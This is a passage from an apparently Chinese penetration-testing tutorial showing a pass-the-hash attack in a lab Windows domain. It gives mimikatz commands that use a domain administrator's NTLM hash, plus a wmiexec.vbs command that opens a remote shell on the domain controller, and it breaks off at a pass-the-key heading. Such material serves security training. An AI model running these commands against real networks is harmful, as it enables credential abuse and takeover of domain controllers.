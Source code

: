 

### mimikatz进行哈希传递攻击PtH(域)



在域环境中，当我们获得了 **域管理员组内用户** 的NTLM哈希值，我们可以使用域内的一台主机用mimikatz对域内任何一台机器(包括域控)进行哈希传递攻击。执行完命令后，会弹出CMD窗口，在弹出的CMD窗口我们可以访问域内任何一台机器。前提是我们必须拥有域内任意一台主机的本地管理员权限和域管理员的密码NTLM哈希值。



*   域：xie.com

*   域控：WIN2008.xie.com

*   普通域主机：WIN2003

*   域管理员：test

*   域普通用户：hack



```
privilege::debug    #先提权       
#使用域管理员test的NTLM哈希值对域控进行哈希传递攻击,域用户test在域管理员组中      
sekurlsa::pth  /user:test  /domain:xie.com  /ntlm:6542d35ed5ff6ae5e75b875068c5d3bc
```




![](https://img-blog.csdnimg.cn/20200406130008802.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



在弹出的cmd窗口中，使用wmiexec.vbs进行验证



```
cscript wmiexec.vbs /shell Win2008
```




![](https://img-blog.csdnimg.cn/20200406120345892.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



只有域管理员的NTLM哈希值才可以进行哈希传递攻击，域普通用户的NTLM哈希值无法进行哈希传递攻击



![](https://img-blog.csdnimg.cn/20200406130052495.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 使用AES进行Key传递攻击(PTK,Pass The Key)



前提：只适用于域环境，并且目标主机需要安装 KB2871997补丁



**获取AES凭证**

